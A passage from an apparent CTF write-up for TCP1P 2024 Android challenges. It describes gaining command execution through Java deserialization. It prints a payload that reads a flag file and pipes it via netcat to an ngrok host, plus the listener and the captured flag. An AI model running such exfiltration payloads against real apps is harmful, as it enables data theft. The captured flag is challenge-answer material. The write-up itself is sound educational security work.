 
![](../assets/2024/tcpip/tcpip4.png){:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"} 


In victims app logcat we can see that the output of our command `whomai` is run successfully. But now comes the hard part where I spent literally half day to get the flag. To get the flag we should read flag.txt in app files directory. But somehow I can't combine commands using pipe or redirect operator. After struggling for few hours I came to know that it is the default behaviour of java's runtime exec.  Later using this [blog](https://code-white.com/blog/2015-03-sh-or-getting-shell-environment-from/) I was able craft my payload with pipes.

```java
f.set(testing,"sh -c $@|sh . echo cat /data/user/0/com.dimas.lookup/files/fl* | nc 0.tcp.in.ngrok.io 12424");
```

This reads flag from the apps directory and pipes it to our netcat connection. Also android system has only few binaries. I couldn't find any other binaries to exfiltrate contents remotely. 

Listening nc on port 9090 and using ngrok to port forward it, I was able to receive the flag from the remote system.

```bash 
~nc -nlvp 9090  > recvd
Connection received 

~cat recvd
TCP1P{basic_deserialization_in_android_is_awssome_485846283}
```

You can also use payload generator from [here](https://ares-x.com/tools/runtime-exec/). I won't forgive java for this 😭. 


### Password Manager 2.0 [Android]

This is the only unsolved android challenge at end of CTF. But after the CTF ended, a CTF player posted his writeup [here](https://www.lbyte.id/2024/10/15/writeup/TCP1P%202024:%20Mobile%20Writeup/). I was able to read `pwds.yml` using vulnerable file provider during CTF, but still the writeup shows that it is a long way to achieve RCE. 


